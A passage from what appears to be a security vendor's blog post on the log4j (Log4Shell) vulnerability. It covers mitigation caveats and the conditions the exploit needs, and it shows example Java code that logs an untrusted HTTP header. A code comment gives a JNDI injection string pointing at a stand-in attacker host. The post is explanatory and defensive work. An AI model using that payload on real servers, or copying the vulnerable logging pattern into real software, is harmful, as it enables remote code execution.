 **For Current Information:** Please read our follow-up guide on [log4j mitigation strategies](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide).

:::warning `formatMsgNoLookups` Does not protect against all attacks
As of Tuesday, Dec 14, it's been found that this flag is ineffective at stopping certain attacks, which is partially explained in
[CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046).  
You must update to `2.17.0`, or use the JNDI patches for temporary mitigation explained in [our mitigation guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).
:::

As per [this discussion on HackerNews](https://news.ycombinator.com/item?id=29507263):

> The 'formatMsgNoLookups' property was added in version 2.10.0, per the JIRA Issue LOG4J2-2109 [1] that proposed it. Therefore the 'formatMsgNoLookups=true' mitigation strategy is available in version 2.10.0 and higher, but is no longer necessary with version 2.15.0, because it then becomes the default behavior [2][3].
>
> If you are using a version older than 2.10.0 and cannot upgrade, your mitigation choices are:
>
> - ~~Modify every logging pattern layout to say `%m{nolookups}` instead of `%m` in your logging
    >   config files. See details at https://issues.apache.org/jira/browse/LOG4J2-2109 This only works on
    >   versions >= 2.7.~~ This is a bad strategy which will likely result in a vulnerability long-term.
>
> - Substitute a non-vulnerable or empty implementation of the
    class org.apache.logging.log4j.core.lookup.JndiLookup, in a way that your classloader uses your
    replacement instead of the vulnerable version of the class. Refer to your application or
    stack's classloading documentation to understand this behavior.

## How the exploit works

### Exploit Requirements

- A server with a vulnerable log4j version (listed above).
- An endpoint with any protocol (HTTP, TCP, etc), that allows an attacker to send the exploit string.
- A log statement that logs out the string from that request.

### Example Vulnerable Code

```ts
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);
```